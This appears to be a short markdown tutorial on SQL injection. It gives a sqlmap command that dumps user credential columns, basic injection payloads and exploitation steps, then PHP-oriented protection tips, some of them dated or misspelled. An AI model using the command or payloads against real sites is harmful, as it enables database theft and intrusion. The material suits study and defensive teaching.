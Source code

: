 ```
./sqlmap -u <WEBSITE> --columns -D <DATABASE-NAME> -T <TABLE-NAME> -C 'id,name,password,login,email' --dump
```

If the password are clear text (not hashed in md5, etc), we have access to the website.

## Basic SQL Injection Exploit Steps

1. Fingerprint database server.
2. Get an initial working exploit. Examples of payloads:
	- '
	- '--
	- ')--
	- '))--
	- or '1'='1'
	- or '1'='1
	- 1--
3. Extract data through UNION statements:
	- NULL: use as a column place holder helps with data type conversion errors
	- GROUP BY - help determine number of columns
4. Enumerate database schema.
5. Dump application data.
6. Escalate privilege and pwn the OS.






## Some Protection Tips

* Never connect to a database as a super user or as a root.
* Sanitize any user input. PHP has several functions that validate functions such as:
	- is_numeric()
	- ctype_digit()
	- settype()
	- addslahes()
	- str_replace()
* Add quotes ```"``` to all non-numeric input values that will be passed to the database by using escape chars functions:
	- mysql_real_escape_string()
	- sqlit_escape_string()

```php
$name = 'John';
$name = mysql_real_escape_string($name);
$SQL = "SELECT * FROM users WHERE username='$name'";
```

* Always perform a parse of data that is received from the user (POST and FORM methods).
	- The chars to be checked:```", ', whitespace, ;, =, <, >, !, --, #, //```.
	- The reserved words: SELECT, INSERT, UPDATE, DELETE, JOIN, WHERE, LEFT, INNER, NOT, IN, LIKE, TRUNCATE, DROP, CREATE, ALTER, DELIMITER.

* Do not display explicit error messages that show the request or a part of the SQL request. They can help fingerprint the RDBMS(MSSQL, MySQL).

* Erase user accounts that are not used (and default accounts).

* Other tools: blacklists, AMNESIA, Java Static Tainting, Codeigniter.

